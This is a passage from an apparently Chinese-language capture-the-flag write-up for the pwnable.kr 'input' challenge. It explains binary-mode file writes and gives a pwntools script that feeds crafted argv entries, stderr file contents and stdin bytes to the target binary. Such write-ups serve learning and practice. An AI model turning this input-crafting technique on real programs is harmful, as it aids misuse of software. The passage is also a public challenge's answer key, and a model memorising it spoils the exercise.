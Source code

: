 ![image-20211202230808559](pwnable.kr_input.assets/image-20211202230808559.png)

注意：我用 `f.write("\x00\x0a\x02\xff") `写文件时最终写的结果为 `00 0A 02 C3 BF`，`open` 的时候类型加上一个`b` 即可，`f = open("./stderr", "wb+")`。

```python
from pwn import *

cmd = ["./a.out"]
for i in range(1, 100):
    if i == 65:
        cmd.append(b"\x00")
    elif i == 66:
        cmd.append(b"\x20\x0a\x0d")
    else:
        cmd.append(str.encode("{}".format(i)))

print("[info] cmd = {}".format(cmd))

f = open("./stderr", "wb+")
f.write(b"\x00\x0a\x02\xff")
f.close()

io = process(cmd, stderr=open("./stderr"))

io.sendline(b"\x00\x0a\x00\xff")
```